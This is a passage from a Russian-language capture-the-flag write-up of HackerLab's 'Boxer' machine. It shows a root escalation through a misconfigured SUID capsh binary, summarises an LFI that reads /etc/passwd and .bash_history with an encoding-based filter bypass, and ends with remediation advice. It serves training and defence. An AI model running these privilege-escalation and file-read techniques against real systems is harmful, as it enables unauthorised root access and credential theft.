

Среди стандартных системных SUID-бинарников (`su`, `sudo`, `passwd`, `mount` и т.д.) присутствует **`/usr/sbin/capsh`** — нестандартная находка. `capsh` — утилита для работы с POSIX capabilities, и в норме SUID-бит на ней не выставляется: это прямой путь к привилегированному доступу, задокументированный в [GTFOBins](https://gtfobins.github.io/gtfobins/capsh/).

---

## 8. Privilege Escalation через SUID `capsh`

**MITRE ATT&CK:** TA0004 Privilege Escalation → T1548.001 Abuse Elevation Control Mechanism: Setuid and Setgid

Эксплуатируем SUID-бит на `capsh`, переключаясь на `uid=0`/`gid=0`:

```bash
capsh --gid=0 --uid=0 --
```



Приглашение меняется на `root@ebc501ac2398:~#` — привилегии получены мгновенно, без эксплойтов ядра и дополнительных техник.

Переходим в `/root` и читаем флаг:

```bash
cd /root
ls
cat last_part
```



---

## Разбор уязвимостей

<table>
<tr><td colspan="2"><b>Уязвимость 1. Local File Inclusion в <code>/v2/image.php</code></b></td></tr>
<tr><td><b>CWE</b></td><td><a href="https://cwe.mitre.org/data/definitions/22.html">CWE-22</a> — Improper Limitation of a Pathname to a Restricted Directory (Path Traversal)</td></tr>
<tr><td><b>Точка входа</b></td><td>GET-параметр <code>image</code> в <code>/v2/image.php</code></td></tr>
<tr><td><b>Корневая причина</b></td><td>Параметр напрямую передаётся в функцию чтения файла без проверки по белому списку; частичная фильтрация (блокирующая самые очевидные пути) обходится альтернативным URL-кодированием (<code>%2f%2e</code>)</td></tr>
<tr><td><b>Воздействие</b></td><td>Чтение произвольных файлов на сервере, включая файлы других пользователей (<code>.bash_history</code>) — как следствие, утечка учётных данных</td></tr>

<tr><td colspan="2"><b>Уязвимость 2. Небезопасный SUID-бит на <code>/usr/sbin/capsh</code></b></td></tr>
<tr><td><b>CWE</b></td><td><a href="https://cwe.mitre.org/data/definitions/250.html">CWE-250</a> — Execution with Unnecessary Privileges</td></tr>
<tr><td><b>Точка входа</b></td><td>Локальный запуск <code>capsh --gid=0 --uid=0 --</code> любым пользователем с доступом к shell</td></tr>
<tr><td><b>Корневая причина</b></td><td>Утилита для управления Linux capabilities ошибочно получила SUID-бит, позволяя любому локальному пользователю мгновенно поднять привилегии до root</td></tr>
<tr><td><b>Ориентировочный уровень</b></td><td>Critical (CVSS 3.1 ≈ 9.1–9.8 — цепочка от неаутентифицированного LFI до root без дополнительных эксплойтов)</td></tr>
<tr><td><b>Воздействие</b></td><td>Полная компрометация хоста: от анонимного чтения файлов до root-доступа по SSH</td></tr>
</table>

****
## Рекомендации по устранению

1. **Не передавать пользовательский ввод напрямую в файловые операции.** Для `image.php` использовать строгий allowlist допустимых файлов (например, по числовому идентификатору или имени из заранее определённого массива), а не произвольный путь из GET-параметра.
2. **Если фильтрация всё же применяется** — не полагаться на чёрный список шаблонов (`../`, ведущая точка и т.п.): такие фильтры почти всегда обходятся альтернативным кодированием. Использовать `realpath()` и явную проверку, что итоговый путь находится внутри разрешённой директории.
3. **Не хранить секреты в истории команд.** Файлы вроде `.bash_history` должны считаться чувствительными и не должны быть одновременно читаемыми через LFI-уязвимое приложение и содержать пароли в открытом виде — обучать пользователей не вставлять пароли прямо в командную строку, использовать менеджеры секретов.
4. **Аудит SUID/SGID бинарников** на регулярной основе (`find / -perm /6000 -type f`), особенно после установки/обновления нестандартных пакетов — `capsh` не должен иметь SUID-бит в норме.
5. **Отключить устаревшие/экспериментальные версии приложения** (`/v2/`) от продакшена, пока они не прошли тот же security review, что и основная версия — именно в ней содержалась уязвимость, отсутствующая в основном сайте.
6. **Заголовки безопасности.** Добавить `Content-Security-Policy` и `Permissions-Policy`, устранить Open Redirect на статичных страницах.

---

## Выводы

Цепочка компрометации хоста  Boxer началась с разведки, которая выявила вторую, менее защищённую версию сайта (`/v2/`) с классическим **Local File Inclusion** в скрипте проксирования изображений. LFI позволил сначала подтвердить наличие локального пользователя через `/etc/passwd`, а затем, обойдя частичную фильтрацию входных данных через Burp Intruder, прочитать его `.bash_history` — файл, в котором по неосторожности оказался пароль в открытом виде. Этого пароля хватило для полноценного SSH-доступа, а локальная энумерация почти сразу выявила критически неверно сконфигурированный SUID-бит на `capsh`, что привело к мгновенной эскалации до root без необходимости в эксплойтах ядра.

Это хороший пример того, как несколько небольших, на первый взгляд несвязанных недочётов (непровалидированный параметр, пароль в истории команд, лишний SUID-бит) выстраиваются в полноценную цепочку полной компрометации хоста.

---

> ⚠️ Материал подготовлен в учебных целях по заданию с платформы HackerLab. Маппинг на MITRE ATT&CK приведён для иллюстрации методологии и не подразумевает атаку на реальную инфраструктуру.
